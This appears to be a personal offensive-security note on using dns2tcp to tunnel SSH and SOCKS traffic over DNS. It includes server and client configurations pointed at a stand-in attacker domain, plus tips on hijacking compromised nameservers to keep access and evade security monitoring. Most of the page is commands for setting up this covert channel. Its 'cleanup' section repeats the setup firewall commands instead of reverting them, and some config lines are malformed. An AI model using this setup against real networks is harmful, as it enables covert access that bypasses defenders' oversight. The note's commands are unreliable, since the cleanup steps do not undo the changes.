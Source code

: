 # DNS2TCP

## Setup

### Package Manager

Install it according to your package manager.

```
$ sudo apt install -y dns2tcp

$ sudo yay -S --noconfirm dns2tcp-git
```

### Universal Install

```
$ git clone https://github.com/alex-sector/dns2tcp && cd dns2tcp \
./configure && make && sudo make install
```

## Server

> [!TIP] Hijack DNS Nameserver (OPSEC Consideration)
> Compromised DNS namserver can be used to maintain access and evade security endpoints due to it's legitimacy.

Once you've setup a domain nameserver for your own server. Perform a quick DNS network diagnostic to see if the subdomain is present.

```
$ dig NS <VPS_IP>
```

Once it's confirmed create a resource file to configure the server.

> [!INFO] Resource File
> You can create a temporary resource file (`.dsn2tcpdrc`) as well.

```
# cat >> /etc/dns2tcp.conf << EOF
listen = <LHOST>
port = 53
user = nobody
chroot = /tmp/
pid_file = /var/run/dns2tcp.pid
domain = subdomain.domain.tld
key = password123
resources = <resource>:
EOF
```

Here's an example of what it looks like.

```
# cat >> /etc/dns2tcp.conf << EOF
listen = 0.0.0.0
port = 53
user = nobody
chroot = /tmp/
pid_file = /var/run/dns2tcp.pid
domain = dnstun.attacker.com
key = password123
resources = ssh:127.0.0.1:22, smtp:127.0.0.1:25, socks:127.0.0.1:1082, https://127.0.0.1:8087, http://127.0.0.3128
EOF
```

Apply the configuration file for the service daemon to run in the foreground.

```
# dns2tcpd -F -d 3 -f /etc/dns2tcp.conf
```

> [!NOTE]
> This step isn't necessary unless your own VPS provider requires you to use firewall rules to open ports.

Create a firewall rule to route the DNS traffic.

```
# echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
iptables -A FORWARD -i eth0 -o dns0 -m state --state RELATED,ESTABLISHED -j ACCEPT
iptables -A FORWARD -i dns0 -o eth0 -j ACCEPT
```

Run the packet analyzer to listen for any incoming connections.

> [!NOTE]
> This step is also not necessary since you can just use the debug level (`-d`) to confirm that it is being tunneled.
> > [!TIP]
> > However, it can be used to monitor incoming traffic when deploying an automated script from the client-side.

```
# tcpdump -i eth0 udp port 53
```

## Client

> [!TIP] Establishing/Maintaining Access
> An automated script can be used to deploy with multiple subdomains of DNS nameservers to maintain access or establishing the initial foothold.

Check available resources to tunnel through DNS.

```
$ dns2tcpc -z subdomain.domain.tld <VPS_IP>
Available connection(s) :
		ssh
		smtp
```

Connect the DNS tunnel.

> [!INFO] Elevated Privileges Required
> Any listening ports ranging between **1-1023** must be ran as `root`.

```
$ dns2tcpc -c -k <password> -d <debug_level> -l <local_PORT> -r <resource> -z subdomain.domain.tld

$ dns2tcpc -c -k password123 -d 3 -l 2139 -r ssh -z dnstun.attacker.com
```

Even a resource file will work.

```
$ cat >> .dns2tcprc << EOF
domain = subdomain.domain.tld
resource = ssh
local_port = 2139
key = <password>
EOF

$ dns2tcpc -f .dns2tcprc
```

Connect through SSH.

```
$ ssh <username>@localhost -p 2139 -4fD 1080
```

## Cleanup and Revert Settings

### Remove Firewall Rules

TODO: Add a clean up section

```
# echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
iptables -A FORWARD -i eth0 -o dns0 -m state --state RELATED,ESTABLISHED -j ACCEPT
iptables -A FORWARD -i dns0 -o eth0 -j ACCEPT
```

### Remove Resource File

```
$ rm -f .dns2tcprc
```

---
## References

### Backlinks

- [[TCPDump]]

### Source Repositories

- [alex-sector: dns2tcp](https://github.com/alex-sector/dns2tcp)

- [debian: dns2tcp](https://salsa.debian.org/debian/dns2tcp)

### Kali Tools

- [Kali Tools: `dns2tcp`](https://www.kali.org/tools/dns2tcp/)

### Aldeid

- [Aldeid: DNS2TCP Usage Example](https://www.aldeid.com/wiki/Dns2tcp)

### DNS2TCP

- [dns2tcp: How to bypass firewalls or captive portals?](https://blog.rootshell.be/2007/03/22/dns2tcp-how-to-bypass-firewalls-or-captive-portals/)